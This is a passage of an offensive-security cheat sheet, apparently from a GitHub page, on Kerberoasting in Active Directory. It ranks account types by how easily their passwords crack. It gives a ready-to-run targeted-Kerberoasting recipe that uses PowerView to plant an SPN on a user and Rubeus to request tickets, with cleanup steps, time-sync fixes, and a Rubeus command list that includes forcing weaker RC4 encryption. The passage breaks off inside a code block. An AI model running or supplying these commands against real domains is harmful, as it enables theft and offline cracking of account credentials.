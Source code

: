 **High-Value Targets (User Accounts):**
- **Domain User Accounts**: Often have weak, static passwords
- **Service Accounts**: Frequently use predictable password patterns
- **Legacy Accounts**: May have never changed default passwords
- **Manual Configuration**: Human-set passwords susceptible to dictionary attacks

**Difficult Targets (System Accounts):**
- **Computer Accounts**: 120-character randomly generated passwords
- **Managed Service Accounts (MSA)**: Automatically managed complex passwords
- **Group Managed Service Accounts (gMSA)**: Centrally managed complex passwords  
- **krbtgt Account**: 120-character random password, changed infrequently

### Targeted Kerberoasting

**Prerequisites:**
- **GenericWrite** or **GenericAll** permissions on target user account
- **Attack Strategy**: Set SPN on user account, perform Kerberoasting
- **Post-Attack**: Remove SPN to avoid creating security vulnerabilities

**PowerView SPN Manipulation:**
```powershell
# Set SPN on target user account
Set-DomainObject -Identity <target_user> -Set @{serviceprincipalname='HTTP/fake.corp.com'}

# Perform Kerberoasting
.\Rubeus.exe kerberoast /user:<target_user> /nowrap

# Remove SPN (cleanup)
Set-DomainObject -Identity <target_user> -Clear serviceprincipalname
```

### Time Synchronization Issues

**Clock Skew Error Resolution:**
```bash
# Synchronize time with domain controller (Linux)
sudo ntpdate <dc_ip>

# Alternative time synchronization
sudo rdate -s <dc_ip>

# Verify time synchronization
date
```

**Error Message:**
```
KRB_AP_ERR_SKEW(Clock skew too great)
```

### Kerberoasting Commands Reference

**Windows (Rubeus):**
```powershell
# Basic Kerberoasting
.\Rubeus.exe kerberoast

# Output to file
.\Rubeus.exe kerberoast /outfile:<output_file>

# Target specific user
.\Rubeus.exe kerberoast /user:<target_user>

# Target specific SPN
.\Rubeus.exe kerberoast /spn:<service_principal_name>

# Force RC4 encryption (easier to crack)
```